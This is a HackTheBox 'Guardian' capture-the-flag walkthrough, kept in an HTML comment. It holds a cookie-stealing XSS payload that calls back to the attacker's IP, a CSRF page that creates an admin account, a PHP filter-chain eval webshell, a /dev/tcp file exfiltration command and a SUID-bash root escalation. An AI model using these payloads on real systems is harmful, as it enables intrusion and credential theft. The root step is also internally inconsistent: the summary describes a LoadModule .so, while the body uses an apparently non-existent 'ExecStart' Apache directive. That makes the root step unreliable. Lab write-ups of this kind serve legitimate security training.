 # Guardian

```
Difficulty: Hard
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Details |
| :--- | :--- | :--- | :--- |
| 1 | `(Local)` | Nmap Scan, Subdomain Enumeration | The initial Nmap scan revealed ports 22 (SSH) and 80 (HTTP). Browsing the main website at `guardian.htb` led to the discovery of the `portal.guardian.htb` subdomain within the page's source code. The portal's "Help" page provided the default password `GUXXXX` for students. |
| 2 | `GU0142023` | Credential Reuse, Portal Enumeration | A student ID from the main site (`GU0142023`) combined with the default password `GUXXXX` granted access to the student portal. Once inside, enumerating a chat feature by brute-forcing the `chat_users` parameter revealed a chat log containing Gitea credentials for the user `jamil.enockson`. |
| 3 | `jamil.enockson` | Information Gathering (Gitea) | Logging into the Gitea instance with `jamil.enockson`'s credentials exposed the source code for the student portal. This included the `config/config.php` file, which contained the database credentials (`root:Gu4rd14nXXXXXXXXXXXXXXXX`) and the password salt (`8Sb)tXXXXXXX`). The code also revealed an admin user account. |
| 4 | `admin (via XSS)` | Cross-Site Scripting (XSS), Stolen Cookie | The portal's file upload feature for spreadsheets was vulnerable to an XSS attack via the `PhpSpreadsheet` library. A malicious `.xlsx` file with a sheet name set to an XSS payload `<script>location.href='http://[your_ip]?c='+document.cookie</script>` was uploaded. When the admin user reviewed this file, their session cookie was sent to our listener. |
| 5 | `attacker (via CSRF)` | Cross-Site Request Forgery (CSRF) | An analysis of the `createuser.php` and `csrf-tokens.php` files in the Gitea repository revealed a CSRF vulnerability. The `is_valid_token` function checked for the presence of a token but never removed it from the pool. We created a malicious HTML file (`exploit.html`) with a valid, previously seen CSRF token. This file was hosted and then its URL was sent to the admin via the Notice Board, resulting in the creation of a new admin account with our chosen credentials. |
| 6 | `jamil` | Password Cracking (Database Dump) | With access to the database credentials from step 3, we connected to the MySQL server and dumped the `users` table. The password hashes were a salted SHA256. Using the salt `8Sb)tXXXXXXX`, we cracked the hash for `jamil.enockson` (`c1d8dfaeeXXXXXXff4f9a43ee440250`), revealing the password `coXXXXXXX`. This allowed us to log in via SSH as the `jamil` user. |
| 7 | `mark` | `sudo` Permission Abuse, File Modification | As `jamil`, the `sudo -l` command showed that we could run `/opt/scripts/utilities/utilities.py` as the user `mark` without a password. The script's `system-status` function was callable by any user. By exploiting the group-write permissions on the `status.py` file, we added a reverse shell command to the `system_status()` function. Executing the script then granted a shell as `mark`. |
| 8 | `root` | `sudo` Permission Abuse, Binary Exploitation (LPE) | Checking `sudo -l` as `mark` revealed that the user could run `/usr/local/bin/safeapache2ctl` as root. A decompiled analysis of this binary showed it was a secure wrapper for `apache2ctl`, but it contained a flawed logic for validating the `-f` flag. The binary allowed the `LoadModule` directive if the specified path was within `/home/mark/confs/`, even if it pointed to a malicious file. We created a small C program to set the SUID bit on `/bin/bash`, compiled it into a shared object (`.so`) file, and wrote a simple Apache config file to load it. Running the binary with `sudo` executed our payload, granting a root shell by running `bash -p`. |

![Map](Pictures/htb_guardian_Mind_Map.png)

### Initial Enumeration and Subdomain Discovery

1.  **Nmap Scan:** Begin with a comprehensive Nmap scan to identify open ports and services on the target machine.
    ```bash
    nmap -p- -T4 guardian.htb
    ```
    The scan reveals ports **22 (SSH)** and **80 (HTTP)** are open.
2.  **Web Enumeration:** Access the main website on `http://guardian.htb`. The page source reveals a subdomain, `portal.guardian.htb`.

![Portal](Pictures/htb_guardian_portal.png)


3.  **Subdomain Access:** Add `guardian.htb` and `portal.guardian.htb` to your `/etc/hosts` file.
    ```bash
    echo "10.10.11.84 guardian.htb portal.guardian.htb gitea.guardian.htb" | sudo tee -a /etc/hosts
    ```
4.  **Portal Analysis:** Navigate to `http://portal.guardian.htb`. This is a student login portal. The **Help** section reveals the default password for new students is **GUXXXX**. The main page of `guardian.htb` lists several student email addresses, which can be used to infer the username format: `GU[ID]`.

![Code](Pictures/htb_guardian_web.png)

![Help](Pictures/htb_guardian_help_pass.png)

-----

### Gaining Initial Access (Jamil)

1.  **Login to the Portal:** Try the default password with a student username from the main site.
      * **Username:** `GU0142023`
      * **Password:** `GUXXXX`
        This successfully logs you into the portal.

2.  **Information Gathering:** Explore the portal. The chat feature URL, `chat.php`, has a `chat_users` parameter, which is vulnerable to a numeric ID enumeration.

3. 

**Method 1**

 **Chat User Enumeration:** Use a tool like **ffuf** to brute-force the `chat_users` parameter and uncover a new chat log.
    ```bash
    ffuf -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2' -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/8-digit-numbers.txt:FUZZ2 -mode clusterbomb -H 'Cookie: PHPSESSID=[your_session_id]' -fl 178,164
    ```

    ***Note:** Replace `[your_session_id]` with your active session cookie.*

**Method 2**

     **Intercept the Request**
   - Open the chat page in your browser.
   - Capture the request to `chat.php` with `chat_users[0]` and `chat_users[1]` parameters.
   - Example request:
     ```
     GET /student/chat.php?chat_users[0]=12345678&chat_users[1]=87654321 HTTP/1.1
     Cookie: PHPSESSID=[your_session_id]
     ```

    **Send to Intruder**
   - Right-click the intercepted request → **Send to Intruder**.

    **Configure Positions**
   - Go to **Intruder → Positions**.
   - Highlight the values of `chat_users[0]` and `chat_users[1]` and click **Add §**.
   - Set **Attack type** → **Cluster Bomb**.

    **Load Payloads**
   - **Payload Set 1** (chat_users[0]):
     - Select **Simple list** → Load `/usr/share/seclists/Fuzzing/8-digit-numbers.txt`.
   - **Payload Set 2** (chat_users[1]):
     - Select **Simple list** → Load the same wordlist.

    **Configure Filters (Optional)**
   - Go to **Options → Response length / status code filters**.
   - Filter out irrelevant responses by content length (e.g., `178, 164`) or other indicators.

    **Start Attack**
   - Click **Start attack**.
   - Review responses for valid chat logs (different length or keywords indicate success).

![Gitea_pass](Pictures/htb_guardian_gitea_pass.png)



    The output reveals a chat between user IDs **1** and **2**. The chat reveals credentials for a Git server.
      * **Username:** `jamil.enockson@guardian.htb`
      * **Password:** `DHsNnXXXXXX`

4.  **Gitea Login:** Access `http://guardian.htb/gitea` and log in with the newfound credentials.

![Gitea_login](Pictures/htb_guardian_gitea_login.png)

-----

### Privilege Escalation (Web)

1.  **Database Credentials:** Within the Gitea repository for the `portal.guardian.htb` project, find the `config/config.php` file. This file contains the database credentials.
      * **Username:** `root`
      * **Password:** `Gu4rd14nXXXXXXXXXXXXXXXX`
      * **Salt:** `8Sb)tXXXXXXX`

      ![Domain_User](Pictures/htb_guardian_db_root_login.png)


2.  **XSS Vulnerability :** A vulnerability exists in the `PhpSpreadsheet` library used by the portal. The `generateNavigation()` function is susceptible to **Cross-Site Scripting (XSS)** via a maliciously crafted spreadsheet with a specific sheet name.

![Vulnerable](Pictures/htb_guardian_dependenciesw.png)

      * Create a spreadsheet (e.g., using FastGrid or a Python library like `openpyxl`).
      * Set the sheet name to an XSS payload, such as `<script>location.href='http://[your_ip]?c='+document.cookie</script>`.

![Excel](Pictures/htb_guardian_re.png)

      * Upload the `.xlsx` file to the portal's upload endpoint.


3.  **CSRF (Teacher):** When the Admin user views the uploaded spreadsheet, the XSS payload will fire, sending their session cookie to your listener.
      * Set up a netcat listener on your machine: `python -m http.server 80`.
      * The listener will capture the Teacher's `PHPSESSID`.
      ![Teacher_Owned](Pictures/htb_guardian_techer_session.png)
      * Use this new session ID to access the learner portal

![Learner_Portal](Pictures/htb_guardian_techer_session_web.png)

CSRF_Token


4.  **Admin Panel Analysis:** The `createuser.php` file in the Gitea repository reveals a **Cross-Site Request Forgery (CSRF)** vulnerability. The CSRF token validation logic in `csrf-tokens.php` is flawed; it checks if a token exists but never removes it from the pool.

```
<?php
require '../includes/auth.php';
require '../config/db.php';
require '../models/User.php';
require '../config/csrf-tokens.php';

$token = bin2hex(random_bytes(16));
add_token_to_pool($token);

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$config = require '../config/config.php';
$salt = $config['salt'];

$userModel = new User($pdo);

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

    $csrf_token = $_POST['csrf_token'] ?? '';

    if (!is_valid_token($csrf_token)) {
        die("Invalid CSRF token!");
    }

    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    $full_name = $_POST['full_name'] ?? '';
    $email = $_POST['email'] ?? '';
    $dob = $_POST['dob'] ?? '';
    $address = $_POST['address'] ?? '';
    $user_role = $_POST['user_role'] ?? '';

    // Check for empty fields
    if (empty($username) || empty($password) || empty($full_name) || empty($email) || empty($dob) || empty($address) || empty($user_role)) {
        $error = "All fields are required. Please fill in all fields.";
    } else {
        $password = hash('sha256', $password . $salt);

        $data = [
            'username' => $username,
            'password_hash' => $password,
            'full_name' => $full_name,
            'email' => $email,
            'dob' => $dob,
            'address' => $address,
            'user_role' => $user_role
        ];

        if ($userModel->create($data)) {
            header('Location: /admin/users.php?created=true');
            exit();
        } else {
            $error = "Failed to create user. Please try again.";
        }
    }
}
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Create User - Admin Dashboard</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
        }

        .sidebar {
            flex-shrink: 0;
            width: 15rem;
            background-color: #1a202c;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar">
       
        <?php include '../includes/admin/sidebar.php'; ?>
    </div>

    
    <div class="main-content">
        <nav class="bg-white shadow-sm">
            <div class="mx-6 py-4">
                <h1 class="text-2xl font-semibold text-gray-800">Create New User</h1>
            </div>
        </nav>

        <div class="p-6">
            <div class="bg-white rounded-lg shadow p-6">
                <?php if (isset($error)): ?>
                    <div class="bg-red-100 text-red-700 p-4 rounded mb-4">
                        <?php echo htmlspecialchars($error); ?>
                    </div>
                <?php endif; ?>
                <form method="POST" class="space-y-4">
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Username</label>
                        <input type="text" name="username" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Password</label>
                        <input type="password" name="password" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Full Name</label>
                        <input type="text" name="full_name" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Email</label>
                        <input type="email" name="email" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Date of Birth (YYYY-MM-DD)</label>
                        <input type="date" name="dob" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">Address</label>
                        <textarea name="address" rows="3" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500"></textarea>
                    </div>
                    <div>
                        <label class="block text-sm font-medium text-gray-700">User Role</label>
                        <select name="user_role" required
                            class="mt-1 block w-full rounded-md border-gray-300 shadow-sm focus:border-indigo-500 focus:ring-indigo-500">
                            <option value="student">Student</option>
                            <option value="lecturer">Lecturer</option>
                            <option value="admin">Admin</option>
                        </select>
                    </div>
                    <input type="hidden" name="csrf_token" value="<?= htmlspecialchars($token) ?>">
                    <div class="flex justify-end">
                        <button type="submit" class="bg-indigo-600 text-white px-4 py-2 rounded-lg hover:bg-indigo-700">
                            Create User
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</body>

</html>
```





      * Create a simple HTML file (`exploit.html`) that uses a known CSRF token to submit a `POST` request to `createuser.php` to create a new admin user.
![Create_User](Pictures/htb_guardian_admin_code.png)
      * The `csrf_token` can be taken from the page source of `createuser.php`.

 Token Logic     
```
<?php

$global_tokens_file = __DIR__ . '/tokens.json';

function get_token_pool()
{
    global $global_tokens_file;
    return file_exists($global_tokens_file) ? json_decode(file_get_contents($global_tokens_file), true) : [];
}

function add_token_to_pool($token)
{
    global $global_tokens_file;
    $tokens = get_token_pool();
    $tokens[] = $token;
    file_put_contents($global_tokens_file, json_encode($tokens));
}

function is_valid_token($token)
{
    $tokens = get_token_pool();
    return in_array($token, $tokens);
}
```

![CSRF_Logic](Pictures/htb_guardian_admin_csrf_logic.png)

![Token_Value](Pictures/htb_guardian_admin_csrf_token.png)

      * Host this HTML file on a web server on your machine.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Exploit</title>
</head>
<body>
<h1>CSRF Exploit Test</h1>
<form id="csrfForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
    <input type="hidden" name="username" value="attacker">
    <input type="hidden" name="password" value="P@ssw0rd123">
    <input type="hidden" name="full_name" value="Attacker User">
    <input type="hidden" name="email" value="attacker@example.com">
    <input type="hidden" name="dob" value="1990-01-01">
    <input type="hidden" name="address" value="123 Hackers Street">
    <input type="hidden" name="user_role" value="admin">
    <input type="hidden" name="csrf_token" value="14b64777f2548919f7bed8eb22168c3a">
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
</body>
</html>
```

      * Send the link to the Admin user via the Notice Board on the portal, which is a monitored resource.

![Notice](Pictures/htb_guardian_admin_xss_link.png)
![Link](Pictures/htb_guardian_admin_notice_link.png)

      * The admin's browser will execute the HTML, creating a new admin account for you.

      * **New Credentials:** `username: attacker`, `password: P@ssw0rd123`

![Admin_Panel](Pictures/htb_guardian_admin_panel.png)

## Local File Inclusion (LFI)

The admin panel's "Reports" section has a `file` parameter in its URL, suggesting a potential Local File Inclusion (LFI) vulnerability.

![LFI](Pictures/htb_guardian_reports_LFI.png)

However, a direct attempt to read a file like `/etc/passwd` fails due to security restrictions. The `report.php` source code, found in the Gitea repository, reveals the reasons for this failure.

```php
<?php
require '../includes/auth.php';
require '../config/db.php';
if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}
$report = $_GET['report'] ?? 'reports/academic.php';
if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}
if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}
?>
```

The code implements two main security checks:

1.  **Directory Traversal Filter:** The `strpos($report, '..')` check prevents any path traversal attempts using `..`.
2.  **Filename Whitelist:** The `preg_match` function restricts the `report` parameter to end with one of four specific filenames: `enrollment.php`, `academic.php`, `financial.php`, or `system.php`.

### Exploiting with PHP Filter Chains

Since we cannot use path traversal, we can leverage **PHP filter chains** to bypass the filename whitelist and read arbitrary files. A filter chain allows for base64 encoding or decoding of file contents, which doesn't trigger the filename check at the end of the URL.

A payload can be crafted to use a filter chain to convert a PHP reverse shell payload into a format that can be written to a temporary file, which is then included and executed. The filename `system.php` is appended to the end of the chain to satisfy the `preg_match` check without affecting the filter's output.

A Python tool like `php_filter_chain_generator.py` can be used to create the necessary payload.

```bash
python php_filter_chain_generator.py --chain '<?php eval($_POST["a"]);?>'
```

This generates a long, complex PHP filter chain that, when used in the `report` parameter, will execute the provided PHP code.


reports.php

```
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Reports Menu</title>
    <link href="../static/vendor/tailwindcss/tailwind.min.css" rel="stylesheet">
    <link href="../static/styles/icons.css" rel="stylesheet">
    <style>
        body {
            display: flex;
            height: 100vh;
            overflow: hidden;
            background-color: #f3f4f6;
        }

        .sidebar {
            flex-shrink: 0;
            background-color: #1e293b;
            color: white;
        }

        .main-content {
            flex: 1;
            overflow-y: auto;
        }
    </style>
</head>

<body class="bg-gray-100">
    <div class="sidebar"><?php include '../includes/admin/sidebar.php'; ?></div>
    <div class="main-content">
        <div class="flex-1 p-10">
            <h1 class="text-3xl font-bold mb-6 text-gray-800">Reports Menu</h1>
            <div class="grid grid-cols-1 md:grid-cols-2 gap-6">
                <a href="?report=reports/enrollment.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-blue-600">Enrollment Report</h2>
                    <p class="text-gray-600">View enrollment statistics and trends.</p>
                </a>
                <a href="?report=reports/academic.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-purple-600">Academic Report</h2>
                    <p class="text-gray-600">Explore academic data like GPA and faculty info.</p>
                </a>
                <a href="?report=reports/financial.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-green-600">Financial Report</h2>
                    <p class="text-gray-600">Review financial figures and revenue trends.</p>
                </a>
                <a href="?report=reports/system.php" class="bg-white p-6 rounded-lg shadow hover:shadow-md transition">
                    <h2 class="text-xl font-semibold text-indigo-600">System Report</h2>
                    <p class="text-gray-600">Check system health and usage statistics.</p>
                </a>
            </div>
           
            <?php include($report); ?>
            
        </div>
    </div>
</body>

</html>
```

### Getting a Reverse Shell

The final URL for the LFI exploit is constructed by appending the generated filter chain and the whitelisted filename (`system.php`) to the `report.php` endpoint.

```
http://portal.guardian.htb/admin/reports.php?report=PHP_FILTER_CHAINS,system.php
```

After visiting this URL, a reverse shell can be triggered by sending a `POST` request with the `a` parameter to the same URL, which will execute the `eval()` function, leading to a shell on the server.

![Shell](Pictures/htb_guardian_reports_LFI_php.png)


5.  **SQL Database Exploration:** Use the `root` database credentials to connect to the MySQL instance from your shell (after gaining a shell, see the next step). The `users` table contains password hashes.

![hash](Pictures/htb_guardian_crackpass_hash.png)

![Code](Pictures/htb_guardian_crackpass_code.png)


      * The password hashing function is `hash('sha256', $password . $salt)`.
      * The salt, `8Sb)tXXXXXXX`, is found in `config.php`.
      * Use a tool like John the Ripper or a Python script to crack the hashes.
      * The hash for `jamil.enockson` cracks to `copperhouse56`.

![Password](Pictures/htb_guardian_crackpass.png)

6.  **SSH to Jamil's Account:** Use the cracked password to SSH into the machine as `jamil`.
    ```bash
    ssh jamil@guardian.htb
    ```
    This grants you initial user access.

![User_flag](Pictures/htb_guardian_User_flag.png)

As the user `jamil`, you can escalate privileges to `mark` by exploiting a misconfiguration in the `sudo` permissions and file system.

-----

### Privilege Escalation from Jamil to Mark

The `sudo -l` command for the `jamil` user shows that you can run the `/opt/scripts/utilities/utilities.py` script as the `mark` user without needing a password.

![Misconfig](Pictures/htb_guardian_sudo_l.png)

The script's source code reveals that most functions (`backup-db`, `zip-attachments`, `collect-logs`) require the executing user to be `mark`. However, the `system-status` function has no such restriction, making it accessible to any user who can execute the script.

By inspecting the file permissions within the `/opt/scripts/utilities/utils` directory, you can see that the `admins` group has write permissions. Since the `jamil` user is a member of this group, you can modify the `status.py` file.

The attack vector is to modify the `system_status()` function in `status.py` to contain a reverse shell payload. When you execute the script with `sudo` as `mark`, the modified function will be run, giving you a shell with `mark`'s privileges.

To elevate privileges from the **jamil** user to the **mark** user, you must exploit a misconfigured `sudo` permission and a writable file.



### Gaining a Shell as Mark

1.  **Enumerate Sudo Permissions:** The `sudo -l` command for the `jamil` user reveals the ability to execute the `/opt/scripts/utilities/utilities.py` script as the `mark` user without a password.

![Owned_Mark](Pictures/htb_guardian_owned_mark.png)

View sudo

```
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```
![Owned_Mark](Pictures/htb_guardian_sudol_mark.png)

Get it out and decompile it

```
mark@guardian:~$ cat /usr/local/bin/safeapache2ctl > /dev/tcp/10.10.XX.XX/8888
```

```
 nc -lvnp 8888 > safeapache2ctl                 
listening on [any] 8888 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] 47832
```

![Binary](Pictures/htb_guardian_file_recieved.png)

-----

### Privilege Escalation to Root

After gaining access as `mark`, the final step is to escalate to `root`. Running `sudo -l` again as `mark` reveals that this user can run `/usr/local/bin/safeapache2ctl` as **root** without a password. This binary is the key to achieving full system control.


6. **Binary Analysis:** The `safeapache2ctl` binary is a wrapper for `apache2ctl`. A decompiled analysis shows it restricts the configuration file (`-f`) to a specific directory (`/home/mark/confs/`) and filters dangerous directives like `Include`, `IncludeOptional`, and `LoadModule`.

   * However, the filter is flawed. It only blocks absolute paths that are **not** within `/home/mark/confs/`. This means you can use an `Include` directive to point to a malicious file inside the allowed directory.

7. **Exploitation:**

   * Create a small shell script that will escalate privileges by setting the SUID bit on `/bin/bash`.

   

  

   ```bash
   cat << 'EOF' > /home/mark/confs/run.sh
   #!/bin/bash
   chmod +s /bin/bash
   EOF
   chmod +x /home/mark/confs/run.sh
   ```

   * Create a new Apache configuration file (`evil.inc`) in `/home/mark/confs/` that executes your script.
![Exploitation](Pictures/htb_guardian_Root_logic_priv.png)


   ```bash
   cat << EOF > /home/mark/confs/evil.inc
   <IfModule !dummy_module>
       ExecStart "/home/mark/confs/run.sh"
   </IfModule>
   EOF
   ```

   * Create the main Apache configuration file (`exploit.conf`) that includes your malicious file.

 

   ```bash
   echo "Include /home/mark/confs/evil.inc" > /home/mark/confs/exploit.conf
   ```

   * Execute the binary with `sudo` to load your configuration file.


   ```bash
   sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
   ```


   This will set the SUID bit on `/bin/bash`.

8. **Get Root Shell:** Run `bash` with the `-p` flag to execute it with root permissions.

   ```bash
   /bin/bash -p
   ```

![Root_Flag](Pictures/htb_guardian_Root_flag.png)

   You now have a root shell! You can read the `root.txt` file.

---

**Pwned! Guradian**

-->
